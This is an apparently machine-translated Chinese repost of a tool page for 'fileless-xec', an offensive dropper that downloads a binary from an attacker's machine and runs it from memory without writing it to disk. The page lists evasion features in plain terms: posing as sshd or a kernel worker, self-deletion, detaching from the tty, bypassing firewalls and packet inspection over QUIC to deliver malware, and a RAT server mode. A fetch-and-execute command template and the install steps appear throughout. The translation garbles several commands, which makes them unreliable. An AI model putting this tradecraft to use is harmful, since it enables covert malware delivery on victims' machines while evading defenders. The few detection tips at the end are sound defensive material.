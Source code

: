 # 执行远程二进制文件而不把它们放到磁盘上

> 原文：<https://kalilinuxtutorials.com/fileless-xec/>

[![](img/9292b7a5acd3aa3f52954e82a37a9d55.png)](https://blogger.googleusercontent.com/img/a/AVvXsEg1m-Vylnb0A_Yx1JWmDXKb7WkdwK7zmA8NmnJKV60kFCbw_MLFxlBve_oLdhcUTVyIr9OSfO_LvISnVhg9gI8SL9i2CXkC5TBW8MMuvHIEPj2giAjl4fpWws3qQJraL6t0JkOibns5jXvuSrvRA55AfFEJOkOeZ_50gT0VS1UAeqht49Jw5rTYm8QR=s909)

Fileless-Xec 是一个秘密的下载程序，它执行远程二进制文件，而不把它们放到磁盘上

***Pentest 用途:*** `**fileless-xec**`用于在目标机器上秘密执行位于攻击者机器上的二进制文件

**短篇小说**

使我们能够直接从内存中在本地机器上执行远程二进制文件，而无需将它们放到磁盘上

**安装**

**从发布**

*Linux:*

**curl-lO-L https://github . com/ariary/file less-xec/releases/latest/download/file less-xec**

*视窗:*

**curl-lO-L https://github . com/ariary/file less-xec/releases/latest/download/file less-xec _ windows . exe**

**来源于**

克隆存储库并在本地下载依赖项:

**git 克隆 https://github.com/ariary/fileless-xec.git
CD 无文件-xec
make before.build**

为 linux 构建无文件 xec

**build.fileless-xec**

为 windows 构建无文件 xec

**windows . build . file less-xec**

**用`go`命令**

确保`**$GOPATH**`在你的`**$PATH**`之前

安装`**fileless-xec**`

**去安装 github.com/ariary/fileless-xec/cmd/fileless-xec**

**解释**

我们希望在本地执行位于远程机器上的`**writeNsleep**`二进制文件。

我们首先在 remote 上启动一个 python http 服务器。在本地，我们使用`**fileless-xe**c`并模拟`**/usr/sbin/sshd**`的名字来执行二进制代码`**writeNsleep**`(为了偷瘦&的乐趣)。一旦 write N sleep 开始，fileless-xec 将删除自身(`**--self-remove**`)

**其他用例**

*   使用 stdout/stdin 执行二进制文件
*   执行带参数的二进制
*   `fileless-xec`自我清除
*   使用 ICMP 绕过网络限制
*   使用 HTTP3 绕过防火墙
*   “远程 go”:在本地没有安装 go 的情况下执行 go 二进制文件
*   执行外壳脚本
*   `**fileless-xec**`服务器模式
    *   RAT(远程访问特洛伊木马)场景
*   `**fileless-xec**`在 windows 上

**偷情故事**

*   二进制文件不会映射到主机文件系统中
*   执行程序名称可以是可定制的
*   可以通过 http3 支持绕过第三代防火墙
*   `**fileless-xec**`一旦启动，自我移除

**memfd_create**

远程二进制文件使用`**memfd_create**` syscall 存储在本地，syscall 将它存储在一个*内存磁盘*中，这个磁盘没有映射到文件系统中(*即*你无法使用`**ls**`找到它)。

**fexecve**

然后我们使用`**fexecve**` syscall 执行它(因为目前`**syscall**` golang 库没有提供它，所以我们实现了它)。

使用`fexecve`我们可以执行一个程序，但是我们使用文件描述符而不是完整路径来引用程序运行。

**HTTP3/QUIC**

| 用 **`-Q` / `http3`** 标志使能。
通过运行`**go run ./test/http3/light-server.go -p LISTENING PORT**`(这是相当于`**python3 -m http.server **`的 http3)可以设置一个支持 http3 的轻量级 web rootfs 服务器
使用`**test/http3/genkey.sh**`生成证书和密钥。 |

`**QUIC**` UDP 又名 **`http3`** 是新一代互联网协议，用于加速易受延迟影响的在线网络应用，如搜索、视频流等。，通过减少连接到服务器所需的往返时间(RTT)。

由于 QUIC 使用等同于 TLS 的专有加密(这将在未来的标准化版本中有所改变)，提供应用程序控制和可见性的第三代防火墙在控制和监控 QUIC 流量方面遇到了困难。

如果你实际上使用`**fileless-xec**`作为一个丢弃器( ***仅用于测试目的或经授权*** )，你很可能想执行某种恶意软件或其他可能被数据包分析丢弃的文件。因此，有了 Quic，你就可以**绕过数据包分析，获得恶意软件**。

此外，如果防火墙仅用于允许/阻止流量，可能会发生**防火墙规则忘记了 udp 协议，从而使您的请求不被发现**

**其他潜行技能**

虽然不存在于内存磁盘上，但仍可使用`ps`命令检测到正在运行的程序。

1.  用一个假的程序名掩盖痕迹

`**fileless-xec --name <fake_name> <binary_raw_url>**`默认名称为`**[kworker/u:0]**`

2.  从 tty 分离以映射守护进程的行为

`**setsid fileless-xec <binary_raw_url>**`。*从代码*调用 WIP`**setsid**`

**告诫**

你仍然会被检测到:

**$ lsof | grep memfd**

或者也是`**opensnoop**`(但不是由`**execsnoop**`)

或者 sec comp profile auditing`**execve**`syscall(但是这是一个非常难以控制的命令，因为`**sleep**`命令也使用 execve)

[**Download**](https://github.com/ariary/fileless-xec)